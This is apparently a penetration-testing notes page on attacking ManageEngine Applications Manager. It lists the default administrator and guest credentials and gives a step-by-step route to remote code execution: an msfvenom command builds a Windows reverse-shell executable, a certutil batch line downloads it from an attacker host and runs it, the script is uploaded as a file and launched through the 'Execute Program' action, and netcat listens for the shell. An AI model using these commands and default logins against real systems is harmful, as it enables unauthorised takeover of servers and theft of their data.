


# ManageEngine

Information about ManageEngine can be found in their [website](https://www.manageengine.com/products/service-desk/).

## Default Accounts

The default accounts are:

- administrator / administrator
- guest / guest


### ManageEngine Applications Manager

If the target application has what are called 'Actions' which allows certain scripts and files to be executed when a certain parameter is met. To take advantage of this first we can head to **Admin > Upload Files / Binaries** to upload a `cmd` command or any malicious code.

Before we upload we first need to create a `msfvenom` reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o reverse.exe
```

After this has completed we need to then create a batch file as only batch files and scripts are executed from the _Actions_ on the target web server.

Create a batch command to the following:

```
certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe && cmd.exe /c c:\windows\temp\reverse.exe
```

Ensuring the bottom most options for '**Upload Script to \<Product\_Home>/working/**' is selected.



After the upload head over to **Actions -> Execute Program** Then create a new Action as per the screenshot below:



Now, check if you received a shell:

```
nc -lvp <YOUR_PORT>

# DID YOU RECEIVED A SHELL?
```
